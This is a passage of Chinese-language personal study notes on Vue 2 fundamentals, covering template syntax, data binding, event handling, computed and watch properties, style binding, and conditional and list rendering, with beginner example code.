




# Vue2 笔记

## 初识 Vue：

---

1.想让 Vue 工作，就必须创建一个 Vue 实例，且要传入一个配置对象；

2.root 容器里的代码依然符合 html 规范，只不过混入一些特殊的 Vue 语法；

3.root 容器里的代码被称为【Vue 模板】

4.Vue 实例和容器是一一对应的；

5.真实开发中只有一个 Vue 实例，并且会配合着组件一起使用；

6.`{{`xxx`}}`中的 xxx 要写 js 表达式，且 xxx 可以自动读取到 data 中的所有属性；

7.一旦 data 中的数据发生改变，那么页面中用到该数据的地方也会自动更新；

注意区分：js 表达式 和 js 代码(语句)

1.表达式：一个表达式会产生一个值，可以放在任何一个需要值的地方

(1). a 变量

(2).a+b 运算符表达式

(3).demo(1) 函数调用

(4). x===y?'a':'b' 三元运算符

2.js 代码(语句):

(1).if(){}

(2).for(){}

```vue
<body>
  <!-- 准备好一个容器 -->
  <div id="root">
    <h1>Hello,{{name}}</h1>
    <h1>我的年龄是：{{age}}</h1>
    <h1>家住在{{address}}</h1>
  </div>
</body>
<script type="text/javascript">
Vue.config.productionTip = false; //设置为 false 以阻止 vue 在启动时生成生产提示。
// 创建Vue实例
const x = new Vue({
  el: "#root", //el用于指定当前Vue实例为哪个容器服务，值通常为css选择器字符串
  data: {
    //data中用于存储数据，数据供el所指定的容器去使用，值我们暂时先写成一个对象
    name: "张三",
    age: "18",
    address: "北京昌平",
  },
});
</script>
```

## Vue 模板语法：

---

Vue 模板语法有 2 大类：

1.插值语法

功能：用于解析标签体内内容。

写法：`{{`xxx`}}`，xxx 是 js 表达式，且可以直接读取到 data 中的所有的属性

2.指令语法

功能：用于解析标签（包含：标签属性、标签体内容、绑定事件...）

举例：`v-bind:href="xxx"` 或 简写为 `:href="xxx"`，`xxx` 同样要写 js 表达式， 且可以直接读取到 data 中的所有属性

备注：Vue 中有很多的指令，且形式都是：v-???，此处我们只是拿 v-bind 举个例子

## 数据绑定：

---

Vue 中有 2 种数据绑定的方式：

1.单向绑定（v-bind）：数据只能从 data 流向页面

2.双向绑定（v-model）：数据不仅能从 data 流向页面，还可以从页面流向 data

备注：

1.双向绑定一般都应用在表单类元素上（如：input、select 等）

2.v-model:value 可以简写为 v-model，因为 v-model 默认收集的就是 value 值

```html
<!-- 普通写法 -->
单向数据绑定：<input type="text" v-bind:value="name" /><br />
双向数据绑定：<input type="text" v-model:value="name" /><br />
<!-- 简写 -->
单向数据绑定：<input type="text" :value="name" /><br />
双向数据绑定：<input type="text" v-model="name" /><br />

<!-- 如下代码是错误的，因为v-model只能应用在表单类元素（输入类元素）上 -->
<!-- <h2 v-model:x="name">你好呀</h2> -->
```

## el 与 data 的两种写法：

---

data 与 el 有 2 种写法：

1.el 有 2 种写法

(1).new Vue 时候的配置 el 属性

(2).先创建 Vue 实例，随后再通过 vm.$mount('#root')指定 el 的值

2.data 有 2 种写法

(1).对象式

(2).函数式

如何选择：目前哪种写法都可以，以后学习到组件时，data 必须使用函数式，否则会报错。

3.一个重要的原则：

由 Vue 管理的函数，一定不要写箭头函数，一旦写了箭头函数，this 就不再是 Vue 实例了，而是 window。

## MVVM 模型：

---

MVVM 模型

1.M：模型(Model)：data 中的数据

2.V:视图(View)：模板代码

3.VM:视图模型(ViewModel)：Vue 实例

观察发现：

1.data 中所有的属性，最后都出现在了 vm 身上

2.vm 身上所有的属性 及 Vue 原型上所有属性，在 Vue 模板中都可以直接使用

## 数据代理：

---

### 1.回顾 Object.defineProperty 方法：

```js
<script>
    let number = 18;
    let person = {
        name: '张三',
        sex: '男',
    }
    Object.defineProperty(person, 'age', {
        // value: 18,
        // enumerable: true, //控制属性是否可以枚举，默认值是false
        // writable: true, //控制属性是否可以被修改，默认值是false
        // configurable: true, //控制属性是否可以被删除，默认值是false
        // 当有人读取person的age属性时，get函数(getter)就会被调用，且返回值就是age的值
        get() {
            console.log('有人读取age属性了')
            return number;
        },
        // 当有人修改person的age属性时，set函数(setter)就会被调用，且会收到修改的具体值
        set(value) {
            console.log('有人修改了age属性，且值是', value)
            number = value;
        }
    })
    // console.log(Object.keys(person));

    console.log(person);

    // for (let key in person) {
    //     console.log('@@@', person[key]);
    // }
</script>
```

### 2.何为数据代理：

数据代理：通过一个对象代理对另一个对象中属性的操作(读/写)

### 3.Vue 中的数据代理：

1.Vue 中的数据代理：

通过 vm 对象来代理 data 对象中属性的操作（读/写）

2.Vue 中数据代理的好处：

更加方便的操作 data 中的数据

3.基本原理：

通过 Object.defineProperty()把 data 对象中所有属性添加到 vm 上

为每一个添加到 vm 上的属性，都指定一个 getter/setter

在 getter/setter 内部去操作(读/写)data 中对应的属性

## 事件处理：

---

### 1.事件的基本使用：

1.使用 `v-on:xxx` 或 `@xxx` 绑定事件，其中 `xxx` 是事件名；

2.事件的回调需要配置在 `methods` 对象中，最终会在 `vm` 上；

3.`methods` 中配置的函数，不要用箭头函数！否则 `this` 就不是 `vm` 了；

4.`methods` 中配置的函数，都是被 `Vue` 所管理的函数，`this` 的指向是 `vm` 或 组件实例对象

5.`@click="demo"` 和 `@click="demo($event)"` 效果一致，但后者可以传参

### 2.事件修饰符：

Vue 中的事件修饰符：

1.`prevent`：阻止默认行为（常用）

2.`stop`：阻止事件冒泡（常用）

3.`once`：事件只触发一次（常用）

4.`capture`：使用事件的捕获模式

5.`self`：只有 event.target 是当前操作的元素时才触发事件

6.`passive`：事件的默认行为为立即执行，无需等待事件回调执行完毕

```vue
<body>
    <div id="root">
        <h2>欢迎来到{{name}}学习</h2>
        <!-- 阻止默认事件（常用） -->
        <a href="https://www.bilibili.com/" @click.prevent="showInfo">点我提示信息</a>
        <!-- 阻止事件冒泡（常用） -->
        <div class="demo1" @click="showInfo">
            <button @click.stop="showInfo">点我提示信息</button>
            <!-- 修饰符可以连续写 -->
            <a href="https://www.bilibili.com/" @click.stop.prevent="showInfo">点我提示信息</a>
        </div>
        <!-- 事件只触发一次（常用） -->
        <button @click.once="showInfo">点我提示信息</button>
        <!-- 使用事件的捕获模式 -->
        <div class="box1" @click.capture="showMsg(1)">
            div1
            <div class="box2" @click="showMsg(2)">
                div2
            </div>
        </div>
        <!-- 只有event.target是当前操作的元素时才触发事件 -->
        <div class="demo1" @click.self="showInfo">
            <button @click="showInfo">点我提示信息</button>
        </div>
        <!-- 事件的默认行为立即执行，无需等待事件回调执行完毕 -->
        <ul @wheel.passive="demo" class="list">
            <li>1</li>
            <li>2</li>
            <li>3</li>
            <li>4</li>
        </ul>
    </div>
</body>
<script>
Vue.config.productionTip = false; //设置为 false 以阻止 vue 在启动时生成生产提示。
new Vue({
  el: "#root",
  data: {
    name: "哔哩哔哩",
  },
  methods: {
    showInfo(event) {
      alert("同学你好！");
      // console.log(event.target);
    },
    showMsg(msg) {
      console.log(msg);
    },
    demo() {
      for (let i = 0; i < 100000; i++) {
        console.log("#");
      }
      console.log("累坏了");
    },
  },
});
</script>
```

### 3.键盘事件：

1.Vue 中的常用的按键别名：

回车 => enter

删除 => delete (捕获"删除"和"退格"键)

退出 => esc

空格 => space

换行 => tab (特殊：必须配合 keydown 去使用)

上 => up

下 => down

左 => left

右 => right

2.Vue 未提供别名的按键，可以使用按键原始的 key 值去绑定，但注意要转为 kebab-case、caps-lock（短横线命名），获取按键原始的 key 值：`event.key`

3.系统修饰键（用法特殊）：ctrl、alt、shift、meta、tab

(1).配合 keyup 使用：按下修饰键的同时，再按下其他键，随后释放其他键，事件才被触发

(2).配合 keydown 使用，正常触发事件

4.也可以使用 keyCode 去指定具体的按键(不推荐)

5.Vue.config.keyCode.自定义键名 = 键码 ，可以去定制按键别名

```html
例如：定制回车：Vue.config.keyCode.huiche = 13
<!--修饰符可以连续写，如下-->
<a href="https://www.bilibili.com/" @click.stop.prevent="showInfo"
  >点我提示信息</a
>
<!--如果只想ctrl加y键才触发事件，如下-->
<input
  type="text"
  placehdder="按下ctrl和y键提示输入"
  @keyup.ctrl.y="showInfo"
/>
```

## 计算属性：

---

#### 1.姓名案例\_插值语法实现：

```vue
<body>
    <div id="root">
        姓：<input type="text" v-model="firstName"><br /><br />
        名：<input type="text" v-model="lastName"><br /><br />
        全名：<span>{{firstName.slice(0,3)}}-{{lastName}}</span>
    </div>
</body>
<script>
Vue.config.productionTip = false; //设置为 false 以阻止 vue 在启动时生成生产提示。
new Vue({
  el: "#root",
  data: {
    firstName: "张",
    lastName: "三",
  },
});
</script>
```

#### 2.姓名案例\_methods 实现：

```vue
<body>
    <div id="root">
        姓：<input type="text" v-model="firstName"><br /><br />
        名：<input type="text" v-model="lastName"><br /><br />
        全名：<span>{{fullName()}}</span>
    </div>
</body>
<script>
Vue.config.productionTip = false; //设置为 false 以阻止 vue 在启动时生成生产提示。
new Vue({
  el: "#root",
  data: {
    firstName: "张",
    lastName: "三",
  },
  methods: {
    fullName() {
      return this.firstName + "-" + this.lastName;
    },
  },
});
</script>
```

#### 3.计算属性实现：

计算属性：

1.定义：要用的属性不存在，要通过已有的属性计算得来

2.原理：底层借助了 Object.defineproperty 方法提供的 getter 和 setter

3.get 函数什么时候执行？

(1).初次读取时会执行一次，因为有缓存，不必再继续读取

(2).当依赖的数据发生改变时会被再次调用

4.优势：与 methods 实现相比，内部有缓存机制（复用），效率更高，调试方便

5.备注：

1.计算属性最终会出现在 vm 上，直接读取使用即可

2.如果计算属性要被修改，那必须写 set 函数去响应修改，且 set 中要引起计算时依赖的数据发生改变=

```vue
<body>
    <div id="root">
        姓：<input type="text" v-model="firstName"><br /><br />
        名：<input type="text" v-model="lastName"><br /><br />
        全名：<span>{{fullName}}</span>
    </div>
</body>
<script>
Vue.config.productionTip = false; //设置为 false 以阻止 vue 在启动时生成生产提示。
const vm = new Vue({
  el: "#root",
  data: {
    firstName: "张",
    lastName: "三",
  },
  computed: {
    fullName: {
      // get有什么作用？当有人读取fullName时，get就会被调用，且返回值就是作为fullName的值
      //get什么时候调用？1.初次读取fullName时。2.所依赖的数据发生变化时。
      get() {
        console.log("get被调用了");
        // console.log(this); //此处的this是vm
        return this.firstName + "-" + this.lastName;
      },
      // set什么时候调用？当fullName被修改时
      set(value) {
        console.log("set", value);
        const arr = value.split("-");
        this.firstName = arr[0];
        this.lastName = arr[1];
      },
    },
  },
});
</script>
```

#### 4.姓名案例\_计算属性简写：

```vue
<body>
    <div id="root">
        姓：<input type="text" v-model="firstName"><br /><br />
        名：<input type="text" v-model="lastName"><br /><br />
        全名：<span>{{fullName}}</span>
    </div>
</body>
<script>
Vue.config.productionTip = false; //设置为 false 以阻止 vue 在启动时生成生产提示。
const vm = new Vue({
  el: "#root",
  data: {
    firstName: "张",
    lastName: "三",
  },
  computed: {
    // 完整写法
    // fullName: {
    //         get() {
    //             console.log('get被调用了')
    //             return this.firstName + '-' + this.lastName;
    //         },
    //         set(value) {
    //             console.log('set', value)
    //             const arr = value.split('-');
    //             this.firstName = arr[0];
    //             this.lastName = arr[1];
    //         }
    //     }
    // }

    // 简写 只有考虑读取，不考虑修改的时候才可以使用简写
    fullName() {
      console.log("get被调用了");
      return this.firstName + "-" + this.lastName;
    },
  },
});
</script>
```

## 监视属性：

---

#### 1.天气案例：

```vue
<body>
    <div id="root">
      <h2>今天天气很一般{{info}}</h2>
      <!-- 绑定事件的时候：@xxx="yyy" yyy可以写一些简单的语句 -->
      <!-- <button @click="isHot = !isHot">切换天气</button> -->
      <button @click="changeWeather">切换天气</button>
    </div>
</body>
<script>
Vue.config.productionTip = false; //设置为 false 以阻止 vue 在启动时生成生产提示。
const vm = new Vue({
  el: "#root",
  data: {
    isHot: true,
  },
  computed: {
    info() {
      return this.isHot ? "炎热" : "凉爽";
    },
  },
  methods: {
    changeWeather() {
      this.isHot = !this.isHot;
    },
  },
});
</script>
```

#### 2.天气案例\_监视属性：

监视属性 watch：

1.当被监视的属性发生变化时，回调函数自动调用，进行相关操作

2.监视的属性必须存在，才能进行监视！！！

3.监视的两种写法：

(1).new Vue 时传入 watch 配置

(2).通过 vm.$watch 监视

```vue
<body>
    <div id="root">
        <h2>今天天气很一般{{info}}</h2>
        <button @click="changeWeather">切换天气</button>
    </div>
</body>
<script>
Vue.config.productionTip = false; //设置为 false 以阻止 vue 在启动时生成生产提示。
const vm = new Vue({
  el: "#root",
  data: {
    isHot: true,
  },
  computed: {
    info() {
      return this.isHot ? "炎热" : "凉爽";
    },
  },
  methods: {
    changeWeather() {
      this.isHot = !this.isHot;
    },
  },
  // watch: {
  //     info: {
  //         immediate: true, //初始化时让handler调用一下
  //         // handler什么时候调用？当isHot发生改变时
  //         handler(newValue, oldValue) {
  //             console.log('info被修改了', newValue, oldValue)
  //         }
  //     }
  // }
});
vm.$watch("info", {
  immediate: true, //初始化时让handler调用一下
  // handler什么时候调用？当isHot发生改变时
  handler(newValue, oldValue) {
    console.log("info被修改了", newValue, oldValue);
  },
});
</script>
```

#### 3.天气案例\_深度监视：

深度监视：

(1).Vue 中的 watch 默认不监视对象内部值的改变(一层)

(2).配置 deep:true 可以监视对象内部值改变(多层)

备注：

(1).Vue 自身可以监视对象内部值的改变，但 Vue 提供的 watch 默认不可以！

(2).使用 watch 时根据数据的具体结构，决定是否采用深度监视

```vue
<body>
    <div id="root">
        <h2>今天天气很一般{{info}}</h2>
        <button @click="changeWeather">切换天气</button>
        <hr />
        <h3>a的值是{{numbers.a}}</h3>
        <button @click="numbers.a++">点我让a+1</button>
        <h3>b的值是{{numbers.b}}</h3>
        <button @click="numbers.b++">点我让b+1</button>
    </div>
</body>
<script>
Vue.config.productionTip = false; //设置为 false 以阻止 vue 在启动时生成生产提示。
const vm = new Vue({
  el: "#root",
  data: {
    isHot: true,
    numbers: {
      a: 1,
      b: 1,
    },
  },
  computed: {
    info() {
      return this.isHot ? "炎热" : "凉爽";
    },
  },
  methods: {
    changeWeather() {
      this.isHot = !this.isHot;
    },
  },
  watch: {
    isHot: {
      // immediate: true, //初始化时让handler调用一下
      // handler什么时候调用？当isHot发生改变时
      handler(newValue, oldValue) {
        console.log("info被修改了", newValue, oldValue);
      },
    },
    // 监视多级结构中某个属性的变化
    "numbers.a": {
      handler() {
        console.log("a的值改变了");
      },
    },
    // 监视多级结构中所有属性的变化
    numbers: {
      deep: true,
      handler() {
        console.log("number改变了");
      },
    },
  },
});
</script>
```

#### 4.天气案例\_监视属性简写：

```vue
<body>
    <div id="root">
        <h2>今天天气很一般{{info}}</h2>
        <button @click="changeWeather">切换天气</button>
    </div>
</body>
<script>
Vue.config.productionTip = false; //设置为 false 以阻止 vue 在启动时生成生产提示。
const vm = new Vue({
  el: "#root",
  data: {
    isHot: true,
  },
  computed: {
    info() {
      return this.isHot ? "炎热" : "凉爽";
    },
  },
  methods: {
    changeWeather() {
      this.isHot = !this.isHot;
    },
  },
  watch: {
    // 正常写法
    // info: {
    //     // immediate: true, //初始化时让handler调用一下
    //     // deep: true, //深度监视
    //     // handler什么时候调用？当isHot发生改变时
    //     handler(newValue, oldValue) {
    //         console.log('info被修改了', newValue, oldValue)
    //     }
    // },
    // 简写
    // isHot(newValue, oldValue) {
    //     console.log('info被修改了', newValue, oldValue)
    // }
  },
});
// 正常写法
// vm.$watch('isHot', {
//      immediate: true, //初始化时让handler调用一下
//      deep: true, //深度监视
//      handler(newValue, oldValue) {
//         console.log('info被修改了', newValue, oldValue)
//     }
// });
// 简写
vm.$watch("isHot", function (newValue, oldValue) {
  console.log("info被修改了", newValue, oldValue);
});
</script>
```

#### 5.姓名案例\_watch 实现：

computed 和 watch 之间的区别：

1.computed 能完成的功能，watch 都可以完成

2.watch 能完成的功能，computed 不一定能完成，例如：watch 可以进行异步操作

两个重要的小原则：

1.所被 Vue 管理的函数，最好写成普通函数，这样 this 的指向才是 vm 或 组件实例对象

2.所有不被 Vue 所管理的函数（定时器的回调函数、ajax 的回调函数、Promise 的回调函数等），最好写出箭头函数，这样 this 的指向才是 vm 或 组件实例对象

```vue
<body>
    <div id="root">
        姓：<input type="text" v-model="firstName"><br /><br />
        名：<input type="text" v-model="lastName"><br /><br />
        全名：<span>{{fullName}}</span>
    </div>
</body>
<script>
Vue.config.productionTip = false; //设置为 false 以阻止 vue 在启动时生成生产提示。
const vm = new Vue({
  el: "#root",
  data: {
    firstName: "张",
    lastName: "三",
    fullName: "张-三",
  },
  watch: {
    firstName(newValue) {
      setTimeout(() => {
        this.fullName = newValue + "-" + this.lastName;
      }, 1000);
    },
    lastName(newValue) {
      this.fullName = this.firstName + "-" + newValue;
    },
  },
});
</script>
```

## 绑定样式：

---

1.class 样式

写法：`class="xxx"` `xxx` 可以是字符串、对象、数组

字符串写法适用于：类名不确定，要动态获取

对象写法适用于：要绑定多个样式，个数不确定，名字也不确定

数组写法适用于：要绑定多个样式，个数确定，名字也确定，但不确定用不用

2.style 样式

`:style="{fontSize:xxx}" 其中 xxx 是动态值`

`:style="[a,b]" 其中 a、b 是样式对象`

```vue
<body>
    <div id="root">
        <!-- 绑定class样式——字符串写法，适用于：样式的类名不确定，需要动态指定 -->
        <div class="basic" :class="mood" @click="changeMood">{{name}}</div><br /><br />
        <!-- 绑定class样式——数组写法，适用于：要绑定的样式个数不确定、名字也不确定 -->
        <div class="basic" :class="classArr">{{name}}</div><br /><br />
        <!-- 绑定class样式——对象写法，适用于：要绑定的样式个数确定、名字也确定，但要动态决定用不用 -->
        <div class="basic" :class="classObj">{{name}}</div><br /><br />
        <!-- 绑定style样式——对象写法-->
        <div class="basic" :style="styleObj">{{name}}</div><br /><br />
        <!-- 绑定style样式——数组写法-->
        <div class="basic" :style="styleArr">{{name}}</div>
    </div>
</body>
<script>
const vm = new Vue({
  el: "#root",
  data: {
    name: "哔哩哔哩",
    mood: "normal",
    classArr: ["atguigu1", "atguigu2", "atguigu3"],
    classObj: {
      atguigu1: false,
      atguigu2: false,
    },
    styleObj: {
      fontStyle: "40px",
      color: "red",
    },
    styleObj2: {
      backgroundColor: "orange",
    },
    styleArr: [
      {
        fontStyle: "40px",
        color: "blue",
      },
      {
        backgroundColor: "orange",
      },
    ],
  },
  methods: {
    changeMood() {
      const arr = ["happy", "sad", "normal"];
      const index = Math.floor(Math.random() * 3);
      this.mood = arr[index];
    },
  },
});
</script>
```

## 条件渲染：

---

1.v-if

写法：

(1).v-if="表达式"

(2).v-else-if="表达式"

(3).v-else="表达式"

适用于：切换频率较低的场景。

特点：不展示的 DOM 元素直接被移除

注意：v-if 可以和 v-else-if、v-else 一起使用，但要求结构不能被"打断"

2.v-show

写法：v-show="表达式"

适用于：切换频率较高的场景

特点：不展示的 DOM 元素未被移除，仅仅是使用样式隐藏掉（display:none）

3.备注：使用 v-if 的时，元素可能无法获取到，而使用 v-show 一定可以获取到

```vue
<body>
    <div id="root">
        <h2>当前的n值是：{{n}}</h2>
        <button @click="n++">点我n+1</button>
        <!-- 使用v-show做条件渲染 -->
        <!-- <h2 v-show="false">欢迎来到{{name}}</h2> -->
        <!-- <h2 v-show="1 === 1">欢迎来到{{name}}</h2> -->

        <!-- 使用v-if做条件渲染 -->
        <!-- <h2 v-if="false">欢迎来到{{name}}</h2> -->
        <!-- <h2 v-if="1 === 1">欢迎来到{{name}}</h2> -->

        <!-- v-else和v-else-if -->
        <!-- <div v-if="n===1">Angular</div>
        <div v-else-if="n===2">React</div>
        <div v-else-if="n===3">Vue</div>
        <div v-else>哈哈</div> -->

        <!-- v-if与template的配合使用 -->
        <template v-if="n===1">
            <h2>你好</h2>
            <h2>哔哩哔哩</h2>
            <h2>上海</h2>
        </template>

    </div>
</body>
<script>
Vue.config.productionTip = false;
const vm = new Vue({
  el: "#root",
  data: {
    name: "哔哩哔哩",
    n: 0,
  },
});
</script>
```

## 列表渲染：

---

#### 1.基本列表：

v-for 指令：

1.用于展示列表数据

2.语法：`v-for="(item,index) in xxx" :key="yyy"`

3.可遍历：数组、对象、字符串（用的很少）、指定次数（用的很少）

```vue
<body>
    <div id="root">
        <!-- 遍历数组 -->
        <h2>人员列表（遍历数组）</h2>
        <ul>
            <li v-for="(p,index) in persons" :key="index">
                {{p.name}}-{{p.age}}
            </li>
        </ul>

        <!-- 遍历对象 -->
        <h2>汽车信息（遍历对象）</h2>
        <ul>
            <li v-for="(value,k) in car" :key="k">
                {{k}}:{{value}}
            </li>
        </ul>

        <!-- 遍历字符串 -->
        <h2>测试遍历字符串（用得少）</h2>
        <ul>
            <li v-for="(char,index) in str" :key="index">
                {{char}}--{{index}}
            </li>
        </ul>

        <!-- 遍历指定次数 -->
        <h2>测试遍历指定次数（用得少）</h2>
        <ul>
            <li v-for="(number,index) in 5" :key="index">
                {{number}}--{{index}}
            </li>
        </ul>
    </div>

</body>
<script>
Vue.config.productionTip = false;
new Vue({
  el: "#root",
  data: {
    persons: [
      {
        id: "001",
        name: "张三",
        age: 18,
      },
      {
        id: "002",
        name: "李四",
        age: 19,
      },
      {
        id: "003",
        name: "王五",
        age: 20,
      },
    ],
    car: {
      name: "奥迪A8",
      price: "78万",
      color: "黑色",
    },
    str: "hello",
  },
});
</script>
```

#### 2.key 的原理：

面试题：react、vue 中的 key 有什么作用？（key 的内部原理）

1.虚拟 DOM 中 key 的作用：

key 是虚拟 DOM 对象的标识，当数据发生变化时，Vue 会根据【新数据】生成【新的虚拟 DOM】，

随后 Vue 进行【新虚拟 DOM】与【旧虚拟 DOM】的差异比较，比较规则如下：

2.对比规则：

(1).旧虚拟 DOM 中找到了与新虚拟 DOM 相同的 key：

1.若虚拟 DOM 中内容没变，直接使用之前的真实的 DOM！

2.若虚拟 DOM 中内容变了，则生成新的真实 DOM，随后替换掉页面中之前的真实 DOM。

(2).旧虚拟 DOM 中未找到与新虚拟 DOM 相同的 key:

创建新的真实 DOM，随后渲染到页面。

3.用 index 作为 key 可能会引发的问题：

1.若对数据进行：逆序添加、逆序删除等破坏顺序操作：

会产生没有必要的真实 DOM 更新 ==> 界面效果没有问题，但效率低。

2.如果结构中还包含输入类的 DOM：

会产生错误 DOM 更新 ==> 界面有问题。

4.开发中如何选择 key?:

1.最好使用每条数据的唯一标识作为 key，比如 id、手机号、身份证号、学号等唯一值。

2.如果不存在对数据的逆序添加、逆序删除等破坏顺序操作，仅用于渲染列表、用于展示，使用 index 作为 key 是没有问题的。

```vue
<body>
    <div id="root">
        <!-- 遍历数组 -->
        <h2>人员列表（遍历数组）</h2>
        <button @click.once="add">添加一个老刘</button>
        <ul>
            <li v-for="(p,index) in persons" :key="p.id">
                {{p.name}}-{{p.age}}
                <input type="text">
            </li>
        </ul>
    </div>
</body>
<script>
Vue.config.productionTip = false;
new Vue({
  el: "#root",
  data: {
    persons: [
      {
        id: "001",
        name: "张三",
        age: 18,
      },
      {
        id: "002",
        name: "李四",
        age: 19,
      },
      {
        id: "003",
        name: "王五",
        age: 20,
      },
    ],
  },
  methods: {
    add() {
      const p = {
        id: "004",
        name: "老刘",
        age: "40",
      };
      this.persons.unshift(p);
    },
  },
});
</script>
```

#### 3.列表过滤：

```vue
<body>
    <div id="root">
      <!-- 遍历数组 -->
      <h2>人员列表</h2>
      <input type="text" placeholder="请输入名字" v-model="keyWord" />
      <ul>
        <li v-for="(p,index) in filPersons" :key="index">
          {{p.name}}-{{p.age}}-{{p.sex}}
        </li>
      </ul>
    </div>
  </body>
<script>
Vue.config.productionTip = false;
// 用watch实现
new Vue({
  el: "#root",
  data: {
    keyWord: "",
    persons: [
      {
        id: "001",
        name: "马冬梅",
        age: 19,
        sex: "女",
      },
      {
        id: "002",
        name: "周冬雨",
        age: 20,
        sex: "女",
      },
      {
        id: "003",
        name: "周杰伦",
        age: 21,
        sex: "男",
      },
      {
        id: "004",
        name: "温兆伦",
        age: 22,
        sex: "男",
      },
    ],
    filPersons: [],
  },
